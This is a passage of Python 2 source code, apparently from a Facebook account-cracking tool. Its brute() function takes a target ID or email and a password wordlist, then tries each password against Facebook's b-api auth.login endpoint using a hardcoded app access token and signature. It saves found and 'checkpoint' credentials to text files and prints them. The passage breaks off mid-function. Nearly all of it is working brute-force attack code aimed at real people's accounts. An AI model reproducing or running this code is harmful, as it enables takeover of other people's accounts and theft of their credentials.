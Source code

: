 


\033[1;92m ERROR ID AFTER 2 WEEKS (14DAYS)

"""
	
	raw_input("\n\033[1;92m[\033[1;92mBack\033[1;92m]")
	crack()
	
def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.001)
        login()
    else:
        os.system('clear')
        print logo14
        print '-----------------------------------------------------------'
        try:
            email = raw_input('\x1b[1;96mID\x1b[1;95m/\x1b[1;95mEmail \x1b[1;95mTarget \x1b[1;95m:\x1b[1;95m ')
            passw = raw_input('\x1b[1;95mWordlist \x1b[1;95m(Type--> dvl.list) \x1b[1;95m: \x1b[1;95m')
            total = open(passw, 'r')
            total = total.readlines()
            print '------------------------------------------------------------'
            print '\x1b[1;94m[\x1b[1;94m\xe2\x9c\x93\x1b[1;97m] \x1b[1;94mTarget \x1b[1;94m:\x1b[1;94m ' + email
            time.sleep(0.05)
            print '\x1b[1;94mTotal\x1b[1;94m ' + str(len(total)) + ' \x1b[1;94mPassword'
            time.sleep(0.05)
            jalan('\x1b[1;94m[\xe2\x9c\xba] \x1b[1;94mPlease wait \x1b[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\x1b[1;97m[\x1b[1;97m\xe2\x9c\xb8\x1b[1;97m] \x1b[1;97mTry \x1b[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' ● ' + pw + '\n')
                        dapat.close()
                        print '\x1b[1;95mFounded.'
                        print 52 * '\x1b[1;97m\xe2\x95\x90'
                        print '\x1b[1;97m[\xe2\x9e\xb9] \x1b[1;97mUsername \x1b[1;97m:\x1b[1;97m ' + email
                        print '\x1b[1;97m[\xe2\x9e\xb9] \x1b[1;97mPassword \x1b[1;97m:\x1b[1;97m ' + pw
                        keluar()
                    else:
                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\x1b[1;92mFounded.'
                            print  "--------------------------------------------------"
                            print '\x1b[1;91m[!] \x1b[1;97mAccount Maybe Checkpoint'
                            time.sleep(0.05)
                            print '\x1b[1;97m[\xe2\x9e\xb9] \x1b[1;97mUsername \x1b[1;97m:\x1b[1;97m ' + email
                            time.sleep(0.05)
                            print '\x1b[1;97m[\xe2\x9e\xb9] \x1b[1;97mPassword \x1b[1;97m:\x1b[1;97m ' + pw